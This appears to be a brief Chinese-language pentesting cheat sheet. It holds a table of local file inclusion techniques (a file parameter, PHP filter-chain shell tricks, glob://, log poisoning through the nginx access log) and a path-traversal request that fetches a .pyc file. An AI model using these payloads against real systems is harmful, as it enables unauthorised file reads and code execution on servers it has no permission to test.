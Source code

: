 [实战 | 文件上传漏洞之最全代码检测绕过总结](https://mp.weixin.qq.com/s/6ArBgNYpsQH7WkaaJY6GfQ)

# LFI/文件包含

| Name                                                   | payload                                                |     |
| ------------------------------------------------------ | ------------------------------------------------------ | --- |
| `?file=index` 或 `?file=index.php` 有可能需要去掉 .php |                                                        |     |
| PHP_INCLUDE_TO_SHELL_CHAR_DICT                         |                                                        |     |
| glob://                                                |                                                        |     |
| 日志包含                                               | 1.抓包修改 Agent 访问 2.包含日志 /var/log/nginx/access.log |

# Python

```sh
/download?file=../../../app/__pycache__/part.cpython-311.pyc
```
